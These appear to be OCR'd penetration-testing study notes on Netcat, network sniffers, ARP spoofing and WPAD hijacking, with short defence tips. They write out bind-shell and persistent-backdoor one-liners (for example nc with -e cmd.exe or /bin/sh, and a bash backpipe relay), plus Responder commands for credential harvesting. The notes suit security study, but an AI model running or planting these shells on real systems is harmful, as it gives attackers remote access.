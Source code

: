 -	Rubber Duckies (Human Interface Devices HID) not a drive. USB based! Ducky script (Disable USB as defense)

# Netcat (Living of the Land, LOL tool)
Netcat: original data exchanger across ports | Ncat: a variant of netcat, from nmap    (client and listening modes)
DNScat, Cryptcat, Linkcat, Gcat, Ncat, etc.
Data transfer (TCP or UDP), Port scan (nc -v -w3 -z 192.168.0.1 0-65535), Vuln scan, Connect to open ports, Backdoors (persistent backdoors using while loops of listening ports and nohup), Relays (using pipes in Linux to send output from listener as input to another connection and vice-versa).
-z means minimal data to be sent.   |    nohup: no hang up;
                    Nmap client connection support source routing / enabling the possibility for spoofing
Relay in Linux / Unix: (Defense: carefully architect the network with layered security, defense in depth)
Machine-1:
	$ nc -l -p 54321 -e cmd.exe                    (-L listen harder / persistent mode, Windows only)
Machine-2:                                                              (Telnet doesn’t support UDP port but Netcat does support (-u))
$ mknod backpipe p
$ nc -l -p 11111 0<backpipe | nc ip1 54321 1>backpipe                            (FIFO)
Machine-3:
	$ nc ip2 1111
Netcat without -e option:
$ mknod backpipe p
$ /bin/bash 0<backpipe | nc -l -p 8080 1>backpipe
Persistent listener: $while[1]; do echo "Started"; nc -l -p [port] -e /bin/sh; done
Vuln scan scripts: Weak RPCs, NFS exports, weak trust relationships, guessable passwords and FTP vulnerabilities
Defense: Private VLAN, Close used ports, services, etc.

# Network Sniffers
Windows computer checks domain to IP in the order of (fall back in case of failures):
1.	DNS (Domain Name Service) server (Attack Tool: Responder)   #./Responder.py -i vlan0
2.	LLMNR (Link-Local Multicast Name Resolution): (Attack Tool: Responder that can harvest credentials)
3.	NBT-NS (NetBIOS Name Service) (Attack Tool: Responder, python: Responder.py -I eth0)
Attack tools for ARP layer:
1.	Bettercap: Ruby | Typing microsoft.com can show yahoo website | Arbitrary TCP modify (TCP proxy)
2.	Arpspoof: Manipulate IP to MAC address mapping (feeds false ARP messages to LAN) | ARP cache poison
3.	MITMf: ARP cache poison | TCP stream modification attacks

https://www.netresec.com/?page=NetworkMiner NetworkMiner can be used as a passive network sniffer/packet capturing tool in order to detect operating systems, sessions, hostnames, open ports etc. without putting any traffic on the network. NetworkMiner can also parse PCAP files for off-line analysis and to regenerate/reassemble transmitted files and certificates from PCAP files.

# Hijacking Attacks
WPAD: Web Proxy Auto Discovery: Can be attacked by MITMf, Bettercap, Responder
-	Packdoor can harvest full HTTPS URL information (for DHCP or DNS configuration)
-	Disable LLMNR and WPAD as defense mechanism
